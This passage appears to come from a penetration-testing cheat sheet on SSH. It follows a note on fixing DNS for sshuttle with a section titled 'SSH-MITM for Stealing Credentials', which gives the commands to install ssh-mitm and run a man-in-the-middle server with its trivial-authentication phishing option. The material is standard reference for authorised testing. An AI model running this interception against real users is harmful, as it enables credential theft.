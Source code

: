 
    ```sh
    sudo systemctl enable systemd-resolved.service
    sudo resolvectl flush-caches
    ```

    Run sshuttle again.

<br />

## SSH-MITM for Stealing Credentials

If the target system user try to connect arbitrary host using SSH, we might be able to steal credentials by listening via the SSH man-in-the-middle server.  
Run the following command in local machine.

```bash
# If not have the ssh-mitm, install first.
pip3 install ssh-mitm --upgrade

# --enable-trivial-auth: The "trivial authentication" phishing attack
# --remote-host: Specify the target ip/domain
# --listen-port: Specify the ip address to listen in local machine
ssh-mitm server --enable-trivial-auth --remote-host example.com --listen-port 2222
```